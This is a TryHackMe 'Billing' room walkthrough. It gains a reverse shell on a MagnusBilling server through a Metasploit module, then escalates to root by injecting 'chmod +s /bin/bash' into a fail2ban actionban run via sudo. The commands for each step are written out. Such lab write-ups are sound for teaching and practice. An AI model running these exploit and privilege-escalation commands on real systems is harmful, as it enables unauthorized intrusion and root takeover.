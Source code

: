🧾 TryHackMe — Billing Room Write-up (Walkthrough)

This walkthrough captures my complete methodology for tackling the Billing room on TryHackMe. It includes initial assumptions, investigative detours, dead ends, and ultimately the correct exploit paths. I’ve intentionally preserved missteps to illustrate a realistic, thought-driven approach — useful both for personal review and for others learning the process.

⚠️ Note: This write-up avoids flag disclosure and assumes the reader has prior CTF experience. Brute-forcing is explicitly out of scope.
🧠 Objective

    Gain a reverse shell, identify the user, and escalate privileges to root.

🛰 Enumeration Phase
🔎 Full Port Scan

nmap -p- <IP>

Identified open ports:

    22: SSH (potential post-exploitation or initial access vector via creds)

    80: HTTP (likely webapp)

    3306: MySQL (check for remote access/config issues)

    5038: Unknown (initial guess: Magic Leap MLDB / Asterisk AMI)

A follow-up version detection scan:

nmap -sV -p22,80,3306,5038 <IP>

Result: Asterisk service detected on 5038 — intriguing.
🌐 Web Application Analysis

Navigating to port 80 presents a basic login interface. Source code inspection didn’t reveal anything immediately useful.

🔍 Suspected usage of MagnusBilling, possibly indicating either a default credential leak or exploitable prebuilt platform.
🛠️ Exploring Port 5038

Tested access via:

    Browser: no frontend.

    Telnet: successful basic connection.

No concrete exploit found on ExploitDB. However, Metasploit revealed a potential exploit module for MagnusBilling.
🧨 Gaining Access — Initial Foothold
🧰 Using Metasploit (msfconsole)

use exploit/linux/http/magnusbilling_rce
set RHOSTS <IP>
set LHOST <Your_Tun0_IP>
run

🔥 Result: Reverse shell established as asterisk.
📁 Post-Exploitation (User Flag)

Explored /home/ directory — discovered a user magnus. The user.txt flag was easily accessible.

🧠 Observation: Sometimes, identifying and leveraging prebuilt, outdated software (like MagnusBilling) provides straightforward access paths.
🔐 Privilege Escalation (Root Flag)
🔎 Initial Enumeration

Found fail2ban-client executable permitted via sudo:

sudo -l

➕ Useful GTFOBins entry exists for fail2ban-client.

Also uploaded and ran linpeas.sh to assist in deeper enumeration.
⚙️ Strategy: Abusing Fail2ban

The room blocks remote MySQL access — potentially due to dynamic IP banning.

Hypothesis: If we can unban or control the ban process, we can trigger commands with root privileges.

sudo /usr/bin/fail2ban-client status

Returned multiple jails including:

    asterisk-iptables

    mbilling_login

    sshd, etc.

Tried globally unbanning IPs via:

sudo /usr/bin/fail2ban-client set <jail_name> unban --all

🧠 Eventually pivoted to an actionban command injection.
🛠️ Exploiting actionban

Injected payload via:

sudo /usr/bin/fail2ban-client set asterisk-iptables actionban "chmod +s /bin/bash"

Then triggered the jail ban:

sudo /usr/bin/fail2ban-client set asterisk-iptables banip 8.8.8.8

✔️ Result: /bin/bash now has the SUID bit set.

Spawned root shell with:

bash -p

Grabbed root.txt.
📌 Lessons Learned

    Enumeration is the key — from ports to software names, nothing is arbitrary.

    Tools like Metasploit are powerful — but understanding what they exploit is more important.

    Fail2ban, often overlooked, is a serious privilege escalation vector when misconfigured.

    Working through errors and dead ends is part of the journey — documenting this is just as valuable as the solution.

📋 Management Summary

    Initial Vector: MagnusBilling RCE (Metasploit module)

    User: asterisk → found magnus

    Privilege Escalation: Fail2ban actionban abuse for SUID bash

    Tooling Used: nmap, msfconsole, linpeas, fail2ban-client

    Takeaway: Smart misconfiguration chaining can replace complex exploit chains.

If you’re aiming to go beyond CTFs into real-world pentesting, this room is an excellent reminder: Outdated software and simple sudo misconfigs are still powerful.
